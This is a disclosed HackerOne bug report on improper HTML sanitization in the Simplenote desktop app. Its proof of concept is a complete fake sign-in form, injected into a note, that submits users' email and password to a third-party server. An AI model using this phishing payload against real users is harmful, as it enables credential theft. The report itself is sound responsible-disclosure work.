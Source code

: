 # Improper markup sanitization.

## Report Details
- **Report ID**: 289823
- **URL**: https://hackerone.com/reports/289823
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-11-13T12:01:59.713Z
- **Disclosed**: 2017-12-01T13:34:32.547Z

## Reporter
- **Username**: edoverflow
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
# Summary

One can inject HTML into a note and create a login form that sends the user's details to a third-party server. This was a fun issue to play around with. I will let the PoC do most of the talking for a change.

# PoC

Paste the following HTML into a Simplenote. I am using the Simplenote app v.1.0.8 on Ubuntu 17.10.

```html
Sign in to Simplenote

<h1 class="signin">Please sign in</h1>
</br>
<form name="login" id="login" action="http://example.com/login.php">
    <fieldset class="classic-fieldset" style="border:none;">
        <div class="input-fields">
            <p>
                <label for="email">Email</label>
                <input name="email" id="email" placeholder="Email" required="" type="email" style="padding: 0.3em;font-size: 14px;font-size: 21px;font-weight: 300;max-width: 35em;height: 44px;border: px solid #f0f0f0;background: #fcfcfc;width: 350px;">
            </p>
            <div id="warn"></div>
            <p>
                <label for="password">Password</label>
                <input name="password" id="password" placeholder="Password" required="" type="password">
            </p>
        </div>
        <br>
        <p>
            <input class="submit button" value="Sign In" type="submit">
        </p>
        <p>
            <input name="remember" value="1" id="check" checked="checked" type="checkbox">
            <label for="remember" class="option">Remember Me</label>
        </p>
        <p class="forgot"><a href="#">Forgot your password?</a></p>
    </fieldset>
</form>
```

I have published the note so that you can verify the issue: https://app.simplenote.com/p/th9BPG. The design could do with a little bit of work in order to make it more convincing, but I am sure you get the gist of the issue.

{F239084}


## Attachments
- simplenote_form.png
